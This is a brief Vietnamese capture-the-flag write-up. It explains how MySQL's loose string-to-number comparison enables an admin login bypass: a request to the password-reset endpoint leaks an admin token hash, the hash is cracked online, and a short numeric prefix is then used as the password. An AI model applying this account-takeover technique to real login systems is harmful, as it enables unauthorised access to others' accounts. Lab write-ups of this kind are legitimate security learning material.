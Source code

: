 # Solution

Khai thác ở bug loggic của mysql

```
mysql> select "123abcdef"=123;
+-----------------+
| "123abcdef"=123 |
+-----------------+
|               1 |
+-----------------+
1 row in set, 1 warning (0.00 sec)
```


POST đến `/forgot` với `{"step":1, "username": "admin"}` để lấy `reset_token` của admin

![reset_token](https://user-images.githubusercontent.com/77546253/172318707-b7fae873-c338-40cd-bc89-0cf6c3149489.png)


=> `234d8ccedc7bea108573a7e669dd111f`

[md5crack](https://hashes.com/en/decrypt/hash) 

![crack](https://user-images.githubusercontent.com/77546253/172318750-7ec7815d-2ffb-40b6-a225-56c35c50e76c.png)

-> `8e30b8`

Login với password là `8e30`

![payload](https://user-images.githubusercontent.com/77546253/172318662-109e34e7-8641-4e1c-a6b2-dea49464fd6d.png)


Kết quả

![flag](https://user-images.githubusercontent.com/77546253/172318599-4c0c0378-2d03-4414-bd86-1472336d742c.png)


